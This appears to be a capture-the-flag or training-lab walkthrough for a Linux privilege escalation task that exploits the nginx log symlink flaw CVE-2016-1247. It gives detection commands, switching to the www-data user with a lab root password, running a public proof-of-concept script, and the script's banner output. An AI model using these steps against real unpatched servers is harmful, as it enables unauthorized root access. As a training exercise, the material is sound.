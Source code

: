 
# [Task 12] Privilege Escalation - SUID (Symlinks)

**Detection**

Linux VM

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below `1.6.2-5+deb8u3`.

~~~
TCM@debian:~$ dpkg -l | grep nginx
ii  nginx-common                        1.6.2-5+deb8u2~bpo70+1       small, powerful, scalable web/proxy server - common files
ii  nginx-full                          1.6.2-5+deb8u2~bpo70+1       nginx web/proxy server (standard version)
~~~

**Exploitation**

Linux VM – Terminal 1

1. For this exploit, it is required that the user be `www-data`. To simulate this escalate to root by typing: `su root`
2. The root password is `password123`
3. Once escalated to `root`, in command prompt type: `su -l www-data`
4. In command prompt type: `/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log`
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

~~~
TCM@debian:~$ su root
Password: 
root@debian:/home/user# su -l www-data
www-data@debian:~$ /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
 _______________________________
< Is your server (N)jinxed ? ;o >
 -------------------------------
           \ 
            \          __---__
                    _-       /--______
               __--( /     \ )XXXXXXXXXXX\v.  
             .-XXX(   O   O  )XXXXXXXXXXXXXXX- 
            /XXX(       U     )        XXXXXXX\ 
          /XXXXX(              )--_  XXXXXXXXXXX\ 
         /XXXXX/ (      O     )   XXXXXX   \XXXXX\ 
         XXXXX/   /            XXXXXX   \__ \XXXXX
         XXXXXX__/          XXXXXX         \__---->
 ---___  XXX__/          XXXXXX      \__         /
   \-  --__/   ___/\  XXXXXX            /  ___--/=
    \-\    ___/    XXXXXX              '--- XXXXXX
       \-\/XXX\ XXXXXX                      /XXXXX
         \XXXXXXXXX   \                    /XXXXX/
          \XXXXXX      >                 _/XXXXX/
            \XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
 
Nginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247) 
nginxed-root.sh (ver. 1.0)

Discovered and coded by: 

Dawid Golunski 
https://legalhackers.com 

~~~